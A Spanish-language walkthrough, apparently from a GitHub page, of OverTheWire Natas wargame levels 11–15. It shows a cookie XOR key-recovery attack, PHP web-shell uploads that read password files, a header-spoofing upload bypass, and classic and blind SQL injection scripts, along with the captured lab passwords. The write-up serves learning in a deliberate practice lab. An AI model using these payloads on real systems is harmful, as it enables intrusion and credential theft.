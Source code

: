 
## Natas11

Este ejercicio es mas complejo de lo habitual, basicamente te presenta un planel donde puedes cambiar el color de fondo de la página (con su representacion 
hexadecimal) y  un "index-source.html" en el que se muestra como toma los datos de ese color de antes y crea una cookie con ellos.
Lo he comprimido todo para que resulte mas legible.
```php
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");  //Diccionario por defecto ->  valor showpassword (no) y el color (blanco)

function xor_encrypt($in) { 
    $key = '<censored>';   $text = $in;   $outText = ''; // Un texto de entrada, una llave para encriptar y uno de salida tras la encriptacion.
    for($i=0;$i<strlen($text);$i++) { $outText .= $text[$i] ^ $key[$i % strlen($key)]; } // El algoritmo, no le vamos a prestar mucha atención
    return $outText;}   // El texto de salida ya encriptado.

function loadData($def) {
    global $_COOKIE;  
    $mydata = $def;   // Esto es la varaible $defaultdata de arriba solo que le han abreviado el nombre para liar.
    if(array_key_exists("data", $_COOKIE)) {   // Se comprueba que exista una cookie "data=algo"
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);  // La cookie que obtengamos se desencripta en "tempdata"
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) { 
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor']; }}}
    return $mydata;}  // $tempdata es un diccioanrio como el defaultdata (color y show password), $mydata cogera sus valores de $tempdata (replica pues)

function saveData($d) { setcookie("data", base64_encode(xor_encrypt(json_encode($d))));}  // Para crear la cookie data de $defaultdata supongo.

$data = loadData($defaultdata); // Esto es lo primero que hace el script, crear una cookie con el $defaultdata

if(array_key_exists("bgcolor",$_REQUEST)) {  // Esto simplemente es para comprobar que el color es valido y ponerlo de fondo
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) { $data['bgcolor'] = $_REQUEST['bgcolor']; }}
        
saveData($data);
```
Si hacemos una peticion curl al sistema se nos da una cookie. Cuyo nombre es "data" como decia el script.
```console
[cucuxii@parrot]~[natas]$: curl -s "http://natas11.natas.labs.overthewire.org" -u natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK -I                           
Set-Cookie: data=ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D   # El %3D es "=" en urlencode
```
En el script de antes decimos que tenemos el diccionario con el color y si nos va a mostrar la contraseña o no, un algoritmo que lo encripta y
otro que lo desencripta de igual manera.

```php
php > print(base64_decode("ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw="));
UK"H+O%▒pSWh]UZ-▒T%UhR^,^h   // bytes sin sentido, asi que habra que hacerlo todo de una
```
Vamos a crear un script que use la funcion xor_encript de antes, el base64 decode, el urldecode y el json encode para crear una cookie buena
```$data= array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");}"```

Tuve que investigar bastante, resulta que si tenemos un "xor", un texto encriptado y el mismo desencriptado ya podemos calcular la llave con eso, 
luego con la llave pues crear nuestro texto. 
El texto es la cookie que nos dan, y su version encriptada es el diccionario "defaultdata", de esos dos sacaremos la clave.
```php
<?php
$key = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=');
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
$text = json_encode($defaultdata);
$outText = '';

for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];}
print($outText);
?>
```
```console
[cucuxii@parrot]~[natas]$: php xor.php                                                                                                                     
qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq
```
Ya tenemos la clave, ahora a crear con ella el diccionario bueno.
```php
<?php
$key = 'qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq';
$defaultdata = array("showpassword"=>"yes", "bgcolor"=>"#ffffff");
$text = json_encode($defaultdata);
$outText = '';

for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];}
print(base64_encode($outText));
?>
```
```console
[cucuxii@parrot]~[natas]$: php xor2.php 
ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
[cucuxii@parrot]~[natas]$: curl -s "http://natas11.natas.labs.overthewire.org" -u natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK \
> --cookie "data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK"
The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3<br>
```
## Natas12

Aquí hay un panel dónde podemos subir una foto, nos dicen que tiene que pesar máximo 1KB. Una vez subido te da un enlace para visualizarlo.
La cosa es crear un php ```<?php system("cat /etc/natas_webpass/natas13"); ?>``` con el nombre "natas.jpg"

Hay dos maneras de hacer esto
1. Subir el archivo pero interceptar con el burpsuite, cambiando el "filename: " de "natas.jpg" a "natas.php"
2. Hacer un script de python

```python
import requests
import re

url = 'http://natas12.natas.labs.overthewire.org/index.php'
name = 'natas12'
password = 'EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3'
php = open('natas.jpg', 'rb')
# Subimos el archivo
req = requests.post(url, auth=(name, password), data = {"filename":"natas.php", "MAX_FILE_SIZE":"1000"}, files = {"uploadedfile": php})
# Pillamos el link que nos da
url2 = url.replace("index.php", re.findall(r'<a href="(.*?)">',req.text)[0])
req2 = requests.get(url2, auth=(name, password))
print(req2.text) # Imprimir el resultado del php interpretado
```
## Natas13

Igual que antes, pero ahora valida que lo que subamos sea una foto, asi que el "natas.jpg" es algo diferente. ¿Como sabe el sistema que es una foto a parte de por la extension? Porque lee los primeros bits. Dichos bits en cualquier archivo son la cabecera, los cuales dicen que clase de archivo es.
Para imagenes se suele usar "GIF8"
```
GIF8;
<?php system("cat /etc/natas_webpass/natas14"); ?>
```
```python
import requests
import re

url = 'http://natas13.natas.labs.overthewire.org/index.php'
name = 'natas13'
password = 'jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY'
php = open('natas.jpg', 'rb')

req = requests.post(url, auth=(name, password), data = {"filename":"natas.php", "MAX_FILE_SIZE":"1000"}, files = {"uploadedfile": php})
url2 = url.replace("index.php", re.findall(r'<a href="(.*?)">',req.text)[0])
req2 = requests.get(url2, auth=(name, password))
print(req2.text)
```
## Natas 14

Aquí nos encontramos un formulario por post "username y password" y un "index-source.html" que nos muestra que tanto el nombre como la contraseña se
meteran en una base de datos SQL.
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```
El problema es que no hay sanitizacion asi que se puede la trampa. Si pones *" or 1=1-- -* dices que o la contraseña es un texto vacio (falso) o 1=1 (verdadero). Aqui la puerta OR dice que la sentencia es valida con que una sola cosa sea verdadera, y como *1=1*, pues adelante.

```python
import requests
import re

url = 'http://natas14.natas.labs.overthewire.org'
name = 'natas14'
password = 'Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1'
nombre = '" or 1=1-- -'
req = requests.post(url, auth=(name, password), data = {"username":nombre, "password":"test"})
print(req.text)
```
```console
[cucuxii@parrot]~[natas]$: python3 natas14.py
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J<br>
```
## Natas 15

Ahora nos enfrentamos a una sqli ciega, es decir, no nos dice la respuesta directamente sino que hay que "picarla". Se puede descubrir con
'" or sleep (5)-- - ' en el campo de username, tardando la web en cargar 5 segundos pues. Tambien esta el campo oculto password.  
Seria interesante hacer un time based sqli explitation, pero tambien encontre una manera rapida de fuzzear un posible campo para la contraseña:  
' " o sea campo vacio O password LIKE BINARY "x%" # ' siendo x un trozo inicial de contraseña que se va aumentando. 

```python
import requests
from string import *

target = 'http://natas15.natas.labs.overthewire.org'
chars = ascii_lowercase + ascii_uppercase + digits

password = ""
while len(password) != 32:
        for c in chars:
                sqli = f'" OR password LIKE BINARY "{password}{c}%" #'
                r = requests.post(target, auth=('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data={"username": sqli, "submit":"submit"})
                if "This user exists" in r.text:
                        print ('PASS: ' + password.ljust(32, '*'))
                        password += c
                        break
```

```console
[cucuxii@parrot]~[natas]$: python3 natas15.py
PASS: ********************************
PASS: W*******************************
...
PASS: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```


